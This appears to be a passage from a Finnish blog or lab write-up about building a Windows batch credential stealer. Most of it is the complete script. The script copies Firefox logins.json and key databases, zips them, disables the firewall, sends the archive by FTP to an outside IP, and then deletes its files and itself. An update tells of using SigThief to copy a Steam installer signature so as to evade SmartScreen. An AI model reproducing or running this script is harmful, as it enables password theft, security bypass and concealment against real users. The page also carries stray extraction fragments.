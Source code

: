 ```
```
Tämä aloittaa batin, mutta avaa itsensä uudelleen pienennettynä. Näin ollen se todennäköisesti herättää vähemmän huomiota.  
  
Lisäksi laitoin .batin tuhoamaan itsensä ja poistamaan kaikki tiedostot, joita se loi salasanojen lähettämistä varten komennolla:
```
del C:\salasanat /S /F /Q
rmdir /s /q C:\salasanat
DEL "%~f0" && EXIT
```
Tässä del /S /F /Q poistaa pakotetusti ja hiljaisesti kaikki tiedostot C:\salasanat sisältä, jonne aikaisemmin kopioitiin firefoxin salasana tiedostot ja jossa on myös tuo pakattu salasanat.zip tiedosto.  
Seuraava rivi rmdir poistaa hiljaisesti tuon tyhjän salasanat kansion.  
Viimeinen rivi poistaa bat tiedoston itsensä ja sulkee samalla komentorivin.  
Kokonaisuudessaan .bat näyttää nyt siis tältä:
```
@echo off
if "%1"=="done" goto runtime
start "" /min %0 done
exit

:runtime
mkdir C:\salasanat\
powershell Copy-Item -Path C:\Users\*\AppData\Roaming\Mozilla\Firefox\Profiles\*.*\logins.json -Destination C:\salasanat\
powershell Copy-Item -Path C:\Users\*\AppData\Roaming\Mozilla\Firefox\Profiles\*.*\key*.db -Destination C:\salasanat\
powershell Compress-Archive -Path C:\salasanat -DestinationPath C:\salasanat\salasanat.zip
@echo off
echo open 172.28.171.247> temp.txt
echo anonymous>> temp.txt
echo asd >> temp.txt
echo cd salasanat>> temp.txt
echo quote pasv>> temp.txt
echo binary>> temp.txt
echo send C:\salasanat\salasanat.zip>> temp.txt
echo quit>> temp.txt
netsh advfirewall set allprofiles state off
ftp -s:temp.txt
netsh advfirewall set allprofiles state on
del temp.txt
del C:\salasanat /S /F /Q
rmdir /s /q C:\salasanat
DEL "%~f0" && EXIT
```

### Päivitys 02.11.2018
Kokeilin saada ohitettua Windowsin SmartScreenin SigThief nimisellä python scriptillä, joka kopio signaturen aidosta exestä ja liittää sen toiseen exeen.  
Tämä ei tuottanut tulosta ainakaan SteamSetup.exe:stä otetulla signaturella. IE.exe valittikin, että tiedostossa on korruptoitunut allekirjoitus, mutta FireFox latasi tiedoston ilman turhia mutinoita.
SigThiefin repository löytyy täältä: https://github.com/secretsquirrel/SigThief
